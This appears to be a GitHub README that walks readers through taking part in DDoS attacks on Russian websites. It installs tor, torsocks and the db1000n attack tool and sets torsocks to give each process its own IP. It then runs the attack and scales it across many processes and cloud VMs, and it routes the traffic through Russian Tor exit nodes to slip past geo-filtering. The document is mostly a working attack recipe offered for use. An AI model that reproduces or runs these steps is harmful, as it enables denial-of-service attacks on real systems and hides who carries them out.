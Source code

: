 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

- Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0) using db1000n in clean Ubuntu VM.
- Similar [demo](https://www.youtube.com/watch?v=QKLkvq8iNo0) of using tor  with wrk load test tool.
- In fact, you may run almost any command line tool with torsocks in front. Exceptions are ping/hping and other tools that use raw or udp sockets.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.33/db1000n_0.8.33_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

You should get something similar to the following (definitely with different IPs in your case):
```bash
$ torsocks curl -L jsonip.com
{"ip":"91.92.109.43","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.174.164","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"185.163.204.44","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.170.174","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated - due to `IsolatePID 1` option in torsocks, everything you start as separate process get separate nodes used, and as result separate IP address at the exit node.
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

There is also a bit simplier way to get specific country location.
Instead of specifiying strict nodes IP addresses, we can use mnemonic 
country code `{ru}` to specify the desired outgoing location we would like to get in:
```bash
# this is the most end of /etc/tor/torrc file, 
# above these lines are tons of custom config
# options mainly commented with sharp sign

ExitNodes {ru}
ConnLimit 32627
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
- [DNS over Tor](https://developers.cloudflare.com/1.1.1.1/other-ways-to-use-1.1.1.1/dns-over-tor/)
